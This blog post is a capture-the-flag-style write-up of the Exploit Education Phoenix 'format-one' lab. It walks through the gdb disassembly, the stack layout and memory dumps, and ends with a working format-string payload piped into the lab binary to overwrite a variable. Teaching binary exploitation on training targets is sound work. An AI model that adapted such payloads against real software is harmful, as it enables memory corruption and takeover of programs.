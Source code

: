 ```yaml
---
layout: post
title: Format One Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand format one exercise stack-overflow vulnerability with learning resources.
comments: true
---
```


## Previous Writeup: 

1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)
5. [Stack Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/28/exploit-education-stack-four-exercise-writeup.html)
6. [Stack Five Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/04/exploit-education-stack-five-exercise-writeup.html)
7. [Stack Six Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/26/exploit-education-stack-six-exercise-writeup.html)
8. [Format Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/10/exploit-education-format-zero-exercise-writeup.html)

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

## Quick Overview

Similar to [Format Zero Writeup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/10/exploit-education-format-zero-exercise-writeup.html), Format One exercise motives are smashing the stack, overwrite arbitrary memory address or variable. However, this format one challenge revolves around [`Format String Vulnerability`](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/).

## Disassemble

Disassembling the code will get you overall idea behind the format-one code, One can use `gdb ./format-one` to start debugging it in runtime.

1. `gdb ./format-one`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x00000000004006ed <+0>:     push   rbp
   0x00000000004006ee <+1>:     mov    rbp,rsp
   0x00000000004006f1 <+4>:     sub    rsp,0x50
   0x00000000004006f5 <+8>:     mov    DWORD PTR [rbp-0x44],edi
   0x00000000004006f8 <+11>:    mov    QWORD PTR [rbp-0x50],rsi
   0x00000000004006fc <+15>:    mov    edi,0x4007e0
   0x0000000000400701 <+20>:    call   0x400530 <puts@plt>
   0x0000000000400706 <+25>:    mov    rdx,QWORD PTR [rip+0x200433]        # 0x600b40 <stdin>
   0x000000000040070d <+32>:    lea    rax,[rbp-0x40]
   0x0000000000400711 <+36>:    mov    esi,0xf
   0x0000000000400716 <+41>:    mov    rdi,rax
   0x0000000000400719 <+44>:    call   0x400520 <fgets@plt>
   0x000000000040071e <+49>:    test   rax,rax
   0x0000000000400721 <+52>:    jne    0x400737 <main+74>
   0x0000000000400723 <+54>:    mov    esi,0x40082b
   0x0000000000400728 <+59>:    mov    edi,0x1
   0x000000000040072d <+64>:    mov    eax,0x0
   0x0000000000400732 <+69>:    call   0x400540 <errx@plt>
   0x0000000000400737 <+74>:    mov    BYTE PTR [rbp-0x31],0x0
   0x000000000040073b <+78>:    mov    DWORD PTR [rbp-0x10],0x0
   0x0000000000400742 <+85>:    lea    rdx,[rbp-0x40]
   0x0000000000400746 <+89>:    lea    rax,[rbp-0x30]
   0x000000000040074a <+93>:    mov    rsi,rdx
   0x000000000040074d <+96>:    mov    rdi,rax
   0x0000000000400750 <+99>:    mov    eax,0x0
   0x0000000000400755 <+104>:   call   0x400550 <sprintf@plt>
   0x000000000040075a <+109>:   mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040075d <+112>:   cmp    eax,0x45764f6c
   0x0000000000400762 <+117>:   je     0x40077a <main+141>
   0x0000000000400764 <+119>:   mov    eax,DWORD PTR [rbp-0x10]
   0x0000000000400767 <+122>:   mov    esi,eax
   0x0000000000400769 <+124>:   mov    edi,0x400840
   0x000000000040076e <+129>:   mov    eax,0x0
   0x0000000000400773 <+134>:   call   0x400510 <printf@plt>
   0x0000000000400778 <+139>:   jmp    0x400784 <main+151>
   0x000000000040077a <+141>:   mov    edi,0x400878
   0x000000000040077f <+146>:   call   0x400530 <puts@plt>
   0x0000000000400784 <+151>:   mov    edi,0x0
   0x0000000000400789 <+156>:   call   0x400560 <exit@plt>
```

Before taking a look at the code, if you disassembled the format-one using gdb to view the assembly instruction, you may notice the puts, fgets, sprintf function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/format-one, brought to you by https://exploit.education` message via Puts (aka printf) method
2. Declares `locals` struct with `char dest[32]` and `volatile int changeme` 
3. Utilizes `fgets` to collect user input and transfers to the buffer with `buffer` size as limit.
4. Assigns struct variable `locals.changeme` as `0x45764f6c`
5. Formats `buffer` variables using `sprintf` and saves in `locals.dest` 
6. Verifies that if `locals.changeme` variables for changes.

## Memory Allocation

 If you take closer look at the memory allocation, every variables declared in the program are allocated in the stack (static). The locals struct contains both `char dest[32]` and `int changeme` variables packed. Additionally, `buffer` char array with size of 16 is allocated next to the struct `locals`. Technically, you can't basically overwrite the `struct` with `buffer` char array. However, things get tricky when the program starts using `sprintf` function to format the `buffer` char array and writes back to `locals.dest` buffer.

 Basically, Format String vulnerability happens because certain type of inputs ( such as `%32x`) as format string modifier to `sprintf` causes the function to expand and write `approximately 32 bytes` into `locals.dest` variable. `sprintf(locals.dest, '%32x')` has special meaning within the function to expand this modifier into memory address in stack say range upto 32 bytes and then copies back to `locals.dest` thus overwriting both locals.dest as well as `locals.changeme` variable in memory.

### State of memory before executing exploit
 ```shell
 (gdb) x/16x $rbp-0x40
0x7fffffffe620: 0x78323325      0x45764f6c      0x0000000a      0x00000000
0x7fffffffe630: 0x00000000      0x00000000      0xffffe6b8      0x00007fff
0x7fffffffe640: 0x00000001      0x00000000      0xffffe6c8      0x00007fff
0x7fffffffe650: 0x00000000      0x00000000      0x00000000      0x00000000
```

### State of memory after executing exploit (Overwritten by sprintf function)
 ```shell
(gdb) x/16x $rbp-0x40
0x7fffffffe620: 0x78323325      0x45764f6c      0x0000000a      0x00000000
0x7fffffffe630: 0x20202020      0x20202020      0x20202020      0x20202020
0x7fffffffe640: 0x20202020      0x20202020      0x66666666      0x30323665
0x7fffffffe650: 0x45764f6c      0x0000000a      0x00000000      0x00000000  # <----- 0x45764f6c 
```

## Exploit

Now, our strategy should be,

1. Input `format string` as `%32x\x6c\x4f\x76\x45`
2. Now, `sprintf` overwrites the `locals.dest` using random address from stack completely overwriting  `32 format string characters` and the memory address `0x45764f6c` in the memory including `locals.changeme` variable which sits next to `locals.dest`

```shell
user@phoenix-amd64:$ echo -e "%32x\x6c\x4f\x76\x45" | /opt/phoenix/amd64/format-one
Welcome to phoenix/format-one, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed correctly!
```

There you go! 🎉 You've officially `pwned` the may eventually gain code execution in upcoming exercises 🪲

![buffer-overflow-pride](/assets/media/htb-sherlock.webp)

## Source and Reference:

1. Format One Exercise: [Exploit Education](https://exploit.education/phoenix/format-one/)


## Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
